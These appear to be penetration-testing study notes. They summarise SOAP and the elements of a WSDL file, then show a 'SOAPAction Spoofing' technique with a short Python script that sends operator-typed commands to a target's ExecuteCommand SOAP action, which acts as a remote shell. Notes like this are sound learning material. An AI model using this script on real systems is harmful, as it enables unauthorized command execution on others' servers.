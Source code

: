 **SOAP (Simple Object Access Protocol):**
   - Uses XML but provides more functionalities than XML-RPC.
   - Defines both a header structure and a payload structure.
   - Optional Web Services Definition Language (WSDL) declaration.
   - Various lower-level protocols (HTTP included) can be the transport.


## Breakdown of WSDL file

1. **Definition:**
   - The root element of all WSDL files.
   - Specifies the name of the web service, declares namespaces, and defines other service elements.

2. **Data Types:**
   - Defines the data types used in exchanged messages.
   - Specifies elements with their types for requests and responses.

3. **Messages:**
   - Defines input and output operations supported by the web service.
   - Messages are presented either as entire documents or as arguments to be mapped to a method invocation.

4. **Operation:**
   - Defines available SOAP actions alongside the encoding of each message.

5. **Port Type:**
   - Encapsulates every possible input and output message into an operation.
   - Defines the web service, available operations, and exchanged messages.

6. **Binding:**
   - Binds operations to a particular port type (interface).
   - Provides web service access details, including message format, operations, messages, and interfaces.

7. **Service:**
   - A client makes a call to the web service through the specified service name.
   - Identifies the location of the web service.

**SOAPAction Spoofing**

If following in wsdl file
```
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

```
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
